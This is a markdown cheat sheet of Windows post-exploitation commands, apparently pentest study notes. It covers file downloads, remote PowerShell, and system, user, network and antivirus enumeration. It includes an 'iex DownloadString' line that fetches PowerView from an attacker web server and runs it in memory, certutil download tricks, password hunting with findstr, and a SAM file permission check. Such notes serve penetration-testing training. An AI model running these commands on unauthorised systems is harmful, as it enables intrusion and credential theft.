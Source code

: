 # Useful commands with Powershell, cmd and Sysinternals

## Powershell

### Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file` (works also in cmd)
  ```
  PS C:\Users\users\Desktop> certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1
  ****  Online  ****
  CertUtil: -URLCache command completed successfully.
  ```
- `wget http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need -OutFile name-you-want-to-give-the-file`
  ```
  PS C:\Users\user\Desktop> wget http://192.168.3.28/powerview.ps1 -OutFile powerview.ps1
  ```
- `iex (New-Object Net.WebClient).DownloadString('http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need')` will load it in memory without writing it in the disk, we will the be able to run powerview command if we use it to load powerview for instance
  ```
  PS C:\Users\s.chisholm.mayorsec\Desktop> iex (New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')
  ```

### Powershell Remoting

- `Enter-PSSession -ComputerName workstation-01`
- `Enter-PSSession -ComputerName workstation-01 -Credential domain\Username`
- ` Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName workstation-01 -Credential domain\Username` connect to a remote powershell and excute command with ScriptBlock. other command we could do with scriptblock: `ipconfig`, `net user`,...
- `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` List AppLocker rules

### Misc

- `Install-Module ActiveDirectoryModule -ScopeCurrentUser` Install a module without admin rights
- `Get-MpComputerStatus` Check Windows Defender Status
- `Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone` Test AppLocker policy
- `Get-HotFix | ft -AutoSize` display hotfixes
- `Get-WmiObject -Class Win32_Product |  select Name, Version` display installed software
- `gci (Get-ChildItem)` list named pipes

## CMD

### Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file`
- `curl.exe -o name-you-want-to-give-the-file http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need`

### System Enumeration

- If we want to grep on specific information we can use `findstr`  
  `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  
  ```
  c:\>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  OS Name:                   Microsoft Windows 7 Enterprise 
  OS Version:                6.1.7600 N/A Build 7600
  System Type:               X86-based PC
  ```
  
- If we want to see patches and update `wmic qfe`
  - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
- List the drives `wmic logicaldisk` `list drives`
- `schtasks` query scheduled task
  - `schtasks /query /fo LIST /v`
- `driverquery` will list installed drivers
- `tasklist /svc` get the list of running processes
- `set` display all environment variables
- `wmic product get name` display installed software
- `icacls c:\Windows\System32\config\SAM` check permissions on the SAM file

### User Enumeration

- `whoami`will give info on the current user
- `whoami /priv` will give info on the current user and their priv
- `whoami /groups` will give info on groups the current user is in
- `net user` or `net users` will list the user on the machine
- `query user` logged in users
- `echo %USERNAME%` current user
- `net user username` will list info about the with the username mentionned
- `net localgroup` `net localgroup groupname` will give info on group
- `qwinsta` or  `query session` other users logged in simultaneously
- `net accounts` Get Password Policy & Other Account Information

### Network Enumeration

- `ipconfig` or `ipconfig /all`
- `arp -a`
- `route print`
- `netstat -ano` list active connections
  - `-a`: Displays all active connections and listening ports on the target system.
  - `-n`: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
  - `-o`: Displays the process ID using each listed connection.
  - Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service. This is when we might need to use port forwarding to investigate the service.
- Check what service runs on a specific port (in the example we will use 8080
  - `netstat -ano | findstr 8080`  
  ![image](https://user-images.githubusercontent.com/96747355/163686732-6f1b095a-70f0-4a04-a3a5-cc64a988b1e1.png)  
  - From this output we can take the pid and checkout which service it is using tasklist `tasklist | findstr 2164`  
  ![image](https://user-images.githubusercontent.com/96747355/163686766-1aa8da58-8584-4902-9dda-188fba31021f.png)  

### Hunting passwords

- `findstr /si password *.txt` will search for the string "password" in txt files `/si` means it searches in the current directory and all subdirectories (s) and ignore the case (i).
- `findstr /si password *.txt *.ini *.config *.sql` same but also in ini, sql and config files
- `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml`

### AV Enumeration

- `sc query windefend` will show if Defender is running
- `sc queryex type= service` will list all running service
- `netsh advfirewall firewall dump` check for firewall
- `netsh firewall show state` similar older command
- `netsh firewall show config` will show the config of the firewall, useful to see blocked ports and other

## Sysinternals

### Pipelist

[Pipelist](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) is useful to enumerate instances of pipes  
- `pipelist.exe /accepteula` enumerate instances of named pipes.

### Accesschk

[Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) is useful to enumerate permissions  
- `accesschk.exe /accepteula`
- `accesschk.exe -wuvc Everyone *` list service we can write and to which everyone has access
- `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"` List of user groups with read and write privs

## Resources

{% embed url="https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi?view=powershell-7.1" %} Working with wmic {% endembed %}  
